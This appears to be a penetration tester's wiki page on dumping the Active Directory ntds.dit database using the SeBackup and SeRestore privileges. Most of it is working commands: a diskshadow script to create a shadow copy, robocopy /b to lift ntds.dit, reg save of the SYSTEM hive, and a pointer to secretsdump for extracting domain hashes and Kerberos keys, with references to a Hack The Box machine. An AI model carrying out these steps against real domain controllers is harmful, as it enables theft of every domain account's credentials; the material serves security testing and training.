 # Backing Up & Dumping `ntds.dit`

> With the right level of permission, a domain account with access to a domain controller can dump the `ntds.dit` file and parse it for the domain accounts' hashes and Kerberos keys offline.

---

## Required Privileges

The user must have the `SeBackup` and the `SeRestore` privileges (default privileges of the `Backup Operators` AD group). Checkable via `whoami /priv` or `whoami /all`.

The user must also have access to the domain controller.

---

## Backing Up & Dumping  `ntds.dit`

Since `ntds.dit` is actively being used, it can't be copied. Use `diskshadow` to copy the entire drive to another drive, and then lift `ntds.dit` from that drive.

Write the commands to copy the drive into a text file on the target.

```bash
$ cat tgihf.dsh
set context persistent nowriters
add volume c: alias tgihf
create
expose %tgihf% z:
```

`c:` can be replaced with the letter of the drive you want to copy
- `tgihf` can be replaced with any alphabetic alias
- `z:` can be replaced with any other drive letter

If you created the command file on a Unix machine, be sure to use `unix2dos` on the file.

```bash
$ unix2dos tgihf.dsh
```

Execute the commands with `diskshadow`.

```powershell
$ diskshadow /s tgihf.dsh
```

Use `robocopy` to create a copy of `ntds.dit`.

```powershell
robocopy /b z:\windows\ntds . $OUTPUT_NTDS_FILE_PATH
```

To properly parse `ntds.dit`, you'll also need the `SYSTEM` registry file. Create a copy of it.

```powershell
reg save hklm\system $OUTPUT_SYSTEM_FILE_PATH
```

Transfer both files to the attacking machine.

[[secretsdump#Dump a local NTDS dit file requires SYSTEM registry hive file|Parse ntds.dit and dump the domain users' hashes and Kerberos keys.]]

---

## References

[Pentest Lab's Blog Post with Numerous Methods](https://pentestlab.blog/tag/diskshadow/)

[Hacking Articles's Walkthrough](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

[Hack the Box's Blackfield](https://app.hackthebox.com/machines/Blackfield)
